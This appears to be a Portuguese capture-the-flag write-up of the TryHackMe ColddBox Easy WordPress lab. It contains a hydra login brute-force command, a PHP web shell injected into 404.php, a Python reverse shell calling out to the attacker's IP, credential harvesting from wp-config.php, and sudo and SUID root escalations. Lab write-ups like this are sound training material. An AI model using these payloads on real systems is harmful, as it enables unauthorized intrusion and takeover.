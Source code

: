 ```yaml
---
description: CTF do TryhackME como fiz e anotações.
title: TryHackMe - Facil
date: 2024-01-08 02:26:00 +/-0300
categories: [CTF, TryHackMe]
tags: [ctf, tryhackme, linux, sudo]     # TAG names should always be lowercase
show_image_post: true
---
```


# TryhackMe - ColddBox Facil

## Enumeração

Ao acessar o site chequei com a extensao wappalyser

![Alt text](/assets/img/ColddBox1.png)

Wordpress encontrando rodei o 

### nmap

```text
──(kali💀kali)-[~]
└─$ sudo nmap 10.10.161.138 -Pn -sV        
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-07 20:52 EST
Nmap scan report for 10.10.161.138
Host is up (0.22s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.00 seconds
```

 
### gobuster


```text
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/hidden               (Status: 200) [Size: 340]
/server-status        (Status: 403) [Size: 278]
/wp-content           (Status: 200) [Size: 0]
/wp-includes          (Status: 200) [Size: 26809]
Progress: 20469 / 20470 (100.00%)
/wp-admin             (Status: 200) [Size: 2567]
===============================================================
Finished
===============================================================
```

de interessante apenas /hidden e a pagina de login do wordpress /wp-admin

conteudo da /hidden

```htm
U-R-G-E-N-T

C0ldd, you changed Hugo's password, when you can send it to him so he can continue uploading his articles. Philip
```

### wpscan
 
 Me retornou alguns usuarios validos
 
```text
 [+] hugo
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] c0ldd
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] philip
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```
## Acesso

### hydra

Adicionei os 3 em users.txt

* c0ldd
* philip
* hugo


Tentei usar o patator por achar mais rápido, mas nao ficou estavel,  por má configuração ou sei la...
Optei então pelo hydra

```shell
hydra -L user.txt -P /usr/share/wordlists/rockyou.txt 10.10.161.138 http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' -t 60 -F 
```

Rapidamente me retornou login e senha

```text
[80][http-post-form] host: 10.10.161.138   login: c0ldd   password: 9876543210

```
### Reverse Shell

Pesquisei por métodos de reverse shell encontrei esses
[aqui]([https://](https://gab3.medium.com/t%C3%A9cnicas-para-conseguir-reverse-shell-em-ambientes-wordpress-ede0b289a644))

Tentei o método do plugin as vezes retornava um erro, não sei se por conta do lag com servidor.
Optei pelo metodo de injetar a reverse shell  na 404.php

**Apenas adicionei o codigo na 404.php**

```php
echo shell_exec($_GET["cmd"]);

```
![Alt text](/assets/img/ColddBox2.png)

Ao executar a pagina 404.php no navegador temos uma webshell que podemos executar comandos.

```bash
Exemplo
/404.php?cmd=ls
```

Tentei usar socat com wget e foi sem exito então , optei pelo python

```text
http://10.10.161.138/wp-content/themes/twentythirteen/404.php?cmd=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.6.125.125%22,4443));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22sh%22)%27
```


**Upgrade para shell interativa**

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")';
ctrl+z
stty raw -echo;fg
export TERM=xterm-256color
```

## Escalação de privilégio

Por pesquisa descobri que  wp-config.php contem login:senha do mysql

```text
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'colddbox');

/** MySQL database username */
define('DB_USER', 'c0ldd');

/** MySQL database password */
define('DB_PASSWORD', 'cybersecurity');
```

Nada de útíl encontrando no DB

/etc/passwd sem permissoes de escrita

Tentei logar com as credencias do db na maquina e OK

```bash
su - c0ldd 
c0ldd@ColddBox-Easy:~$ 

Primeira flag obtida
c0ldd@ColddBox-Easy:~$ cat user.txt 
RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==
```

Com sudo -l, é possivel ver três formas de obter root, optei pelo vim.


```shell
c0ldd@ColddBox-Easy:~$ sudo -l
[sudo] password for c0ldd: 
Coincidiendo entradas por defecto para c0ldd en ColddBox-Easy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario c0ldd puede ejecutar los siguientes comandos en ColddBox-Easy:
    (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp
c0ldd@ColddBox-Easy:~$ sudo -u root vim -c ':!/bin/bash'
root@ColddBox-Easy:/# 
```

com cat em /root.txt obtivemos a ultima flag

wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=

**Obter root com ftp**

sudo -u root ftp
ftp> !/bin/bash

**Obter root com chmod**

sudo -u root chmod 4775 /bin/bash

O 4 no início representa a permissão SUID (Set User ID). Quando definido em um arquivo executável, permite que um usuário que execute o arquivo temporariamente assuma as permissões do proprietário do arquivo. No caso do /bin/bash, isso permitiria que o usuário que o execute temporariamente tenha privilégios de root durante a execução.

bash -p

O argumento p preserva o bit SUID do  arquivo